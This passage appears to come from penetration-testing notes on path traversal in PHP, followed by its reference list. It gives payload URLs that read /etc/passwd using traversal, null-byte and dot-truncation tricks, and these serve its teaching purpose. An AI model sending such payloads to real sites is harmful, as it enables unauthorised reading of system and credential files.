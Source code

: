 #### Absolute Path Traversal

```text
http://{{< param "m.RDOMAIN" >}}/index.php?page=/etc/passwd
```

#### Relative Path Traversal

```text
http://{{< param "m.RDOMAIN" >}}/index.php?page=../../../etc/passwd
```

### Null Byte

Sometimes applications append extra characters,
like file extensions,
to the input variable.
A null byte will make the application
ignore the following characters.

```text
http://{{< param "m.RDOMAIN" >}}/index.php?page=../../../etc/passwd%00
```

{{<hint m.ING>}}
PHP fixed the issue
in version 5.3.4. <https://bugs.php.net/bug.php?id=39863>
{{</hint>}}

### Dot Truncation

In PHP,
filenames longer than 4096 bytes
will be truncated and,
characters after that,
ignored.

```text
http://{{< param "m.RDOMAIN" >}}/index.php?page=../../../etc/passwd................[ADD MORE]
http://{{< param "m.RDOMAIN" >}}/index.php?page=../../../etc/passwd\.\.\.\.\.\.\.\.[ADD MORE]
http://{{< param "m.RDOMAIN" >}}/index.php?page=../../../etc/passwd/./././././././.[ADD MORE]
http://{{< param "m.RDOMAIN" >}}/index.php?page=../../../[ADD MORE]../../../../../etc/passwd
```

{{<hint m.ING>}}
In PHP:
`/etc/passwd` = `/etc//passwd` = `/etc/./passwd` = `/etc/passwd/` = `/etc/passwd/`
{{</hint>}}

### Encoding

Manipulating variables that reference files
with “dot-dot-slash" (`../`) sequences and its variations,
or using absolute file paths,
may allow bypassing poorly implemented input filtering.
[^swissky-dt]


[^owasp-path-traversal]: “Path Traversal - OWASP.” OWASP, https://wiki.owasp.org/index.php/Path_Traversal.
[^wiki-file-inclusion]: Contributors to Wikimedia projects. “File Inclusion Vulnerability - Wikipedia.” Wikipedia, the Free Encyclopedia, Wikimedia Foundation, Inc., 24 Nov. 2006, https://en.wikipedia.org/wiki/File_inclusion_vulnerability.
[^swissky-dt]: swisskyrepo. “PayloadsAllTheThings / Directory Traversal.” GitHub, https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal.
[^unc-share]: “CWE-40: Path Traversal: ‘\\UNC\share\name\’ (Windows UNC Share) (4.1).” CWE -  Common Weakness Enumeration, https://cwe.mitre.org/data/definitions/40.html.
[^data-scheme]: “RFC 2397 - The ‘Data’ URL Scheme.” IETF Tools, https://tools.ietf.org/html/rfc2397.
[^apache-log]: “Log Files - Apache HTTP Server Version 2.4.” Welcome! - The Apache HTTP Server Project, https://httpd.apache.org/docs/2.4/logs.html.
[^php-wrappers]: “PHP: Supported Protocols and Wrappers - Manual.” PHP: Hypertext Preprocessor, https://www.php.net/manual/en/wrappers.php.
[^ietf-rfc2397]: “RFC 2397 - The ‘Data’ URL Scheme.” IETF Tools, https://tools.ietf.org/html/rfc2397.
[^kernel-proc]: “The /Proc Filesystem.” The Linux Kernel  Documentation, https://www.kernel.org/doc/html/latest/filesystems/proc.html.
[^route-lookup]: Bernat, Vincent. “IPv4 Route Lookup on Linux ⁕ Vincent Bernat.” MTU Ninja Vincent Bernat, https://vincent.bernat.ch/en/blog/2017-ipv4-route-lookup-linux.
[^linux-man-proc]: “Proc(5) - Linux Manual Page.” Michael Kerrisk - Man7.Org, https://man7.org/linux/man-pages/man5/proc.5.html.
[^ush-lfi2rce]: “LFI2RCE (Local File Inclusion to Remote Code Execution) Advanced Exploitation: /Proc Shortcuts.” Ush.It - a Beautiful Place, https://www.ush.it/2008/08/18/lfi2rce-local-file-inclusion-to-remote-code-execution-advanced-exploitation-proc-shortcuts/.